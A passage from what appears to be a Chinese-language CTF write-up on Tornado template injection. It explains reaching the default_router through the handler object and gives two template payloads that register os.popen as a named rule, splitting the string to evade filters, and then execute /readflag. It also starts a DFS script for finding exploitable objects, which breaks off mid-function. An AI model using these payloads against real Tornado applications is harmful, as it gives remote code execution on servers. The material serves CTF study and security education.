 ```python
        List[Any],  # Can't do detailed typechecking of lists.
        Tuple[Union[str, "Matcher"], Any],
        Tuple[Union[str, "Matcher"], Any, Dict[str, Any]],
        Tuple[Union[str, "Matcher"], Any, Dict[str, Any], str],
    ]
]
```

在`application`对象中存在一个`default_router`属性，是`_ApplicationRouter`的实例，而`_ApplicationRouter`继承自`ReversibleRuleRouter`，`ReversibleRuleRouter`继承自`RuleRouter`，这样在`handler.application.default_router`中就可以调用add_rules了。Rule中的最后一个元素是该Rule的名字，他会被处理并储存在named_rules中，这样找起来会比较方便。

```
{{handler.application.default_router.add_rules([["123","os.po"+"pen","a","345"]])}}
{{handler.application.default_router.named_rules['345'].target('/readflag').read()}}
```

### 第三种

考虑到handler暴露出的内容实在是太多，说不定在某个角落就有一个特殊对象可以用于RCE，这个时候就要用DFS来找一下了。

这个是我当时做的一个简陋DFS，可以用于遍历对象属性、列表和字典。

```python
import os
import datetime
import sys
import traceback
import inspect

def obj_walker(obj,searcher,filter,depth=10):
    visited = set()
    
    def backtrace():
        stack = inspect.stack()
        path = []
        for i in stack:
            if(i.function == "dfs"):
                try:
                    path.append(i.frame.f_locals['name'])
                except Exception as e:
                    raise e
        print('.'.join(path[::-1]))
    
    def dfs(current,d,name,visited):
        visited = set(visited)
        if filter(name):
            return
        if searcher(current):
            backtrace()
            return
        if id(current) in visited:
            return
        if d > depth:
            return
        
        visited.add(id(current))
        for i in dir(current):
            try:
                next = getattr(current,i)
                dfs(next,d+1,i,visited)
            except AttributeError as e:
                pass
        if isinstance(current, dict):
            for k,v in current.items():
                dfs(k,d+1,f'[{k}]',visited)
```